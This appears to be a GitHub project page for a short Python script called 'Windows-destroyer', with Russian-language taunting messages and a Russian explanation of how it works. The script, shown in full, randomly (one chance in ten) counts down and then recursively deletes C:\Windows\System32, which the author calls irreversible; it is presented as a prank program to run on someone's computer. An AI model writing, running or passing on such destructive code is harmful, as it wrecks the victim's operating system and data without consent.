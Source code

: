 # Windows-destroyer


import random
import shutil
import time

if random.randint(0, 9) == 5:
    print("Эх, ну ты и везунчик, теперь проверим твою скорость в поиске этого процесса в диспетчере задач :(")
    time.sleep(5)
    print("Если что, то ты попал в вероятность 0.1, и через 10 секунд с твоего компьютера удалится папка System32")
    for i in range(10, 0, -1):
        print(i, 'секунд осталось(')
        time.sleep(2)
    print("Чао персик, дозревай")
    time.sleep(2)
    shutil.rmtree("C:\Windows\System32")
else:
    print('ХАХ, а тебе повезло, лучшe узнай у создаетля этой арограммы, что она могла сделать с твоим компом))')
    time.sleep(10)






Основа программы состоит в том, что при попадании в число 5 при рандомизации, запускается необратимый процесс удаления папки System32, но есть несколько способов остановить этот ужас и кошмар. Для этого надо либо выключить компьютер, либо перезагрузить его, либо найти этот екзешник в диспетчере устройств и выключить его.
